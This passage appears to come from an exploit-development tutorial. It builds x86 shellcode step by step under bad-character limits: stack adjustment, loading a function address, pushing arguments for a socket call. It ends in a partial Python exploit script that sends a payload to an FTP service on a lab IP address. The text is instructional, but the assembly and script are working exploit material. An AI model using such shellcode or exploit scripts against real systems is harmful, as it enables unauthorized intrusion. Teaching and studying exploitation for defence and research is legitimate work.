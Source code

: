 {% codeblock ASM listing %}
SUB ESP, 0x7C         ; Move the stack pointer somewhere safe
{% endcodeblock %}

We subtract `0x7C` bytes because:

1. Anything more than `0x7F` results in an instruction that is 6 bytes. Also, each byte needs to be a non-bad char, which means that `ESP` would be adjusted too far away, resulting in other problems.
1. The largest stack-aligned value under '0x7F` is `0x7C`, and keeping the stack aligned for certain function calls is very important.

The stack now points to somewhere in the block of zeros that overwrote our original payload. This will prove to be handy later on when we need zeros pushed onto the stack.


Next we need to construct a call to a new socket. This means we need to locate and call `socket` with the right parameters. To create a socket that is able to work with streams over TCP, the call would need to look like this: `socket(2, 1, 6);`

Before we can do that we need to get the first of the functions that we're going to call into `EBX`, just as we discussed before:

{% codeblock ASM listing %}
MOV EBX, 0x40343444   ; Set EBX to a mostly correct address
SHR EBX, 0x8          ; Shift EBX right by a byte to correct the address
{% endcodeblock %}

We now need to push the three magic values onto the stack in the reverse order (bear in mind that `EAX` is `0` at this point):

{% codeblock ASM listing %}
MOV AL, 6             ; Set EAX to 6
PUSH EAX
MOV AL, 1             ; Set EAX to 1
PUSH EAX
INC EAX               ; Set EAX to 2
PUSH EAX
{% endcodeblock %}

With the stack parameters ready to go, we can simply call the socket function and we should see a result appear in `EAX` which indicates a valid socket handle. Let's take a look at our exploit up until this point:

{% codeblock sploit.py version 4 lang:python %}
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close
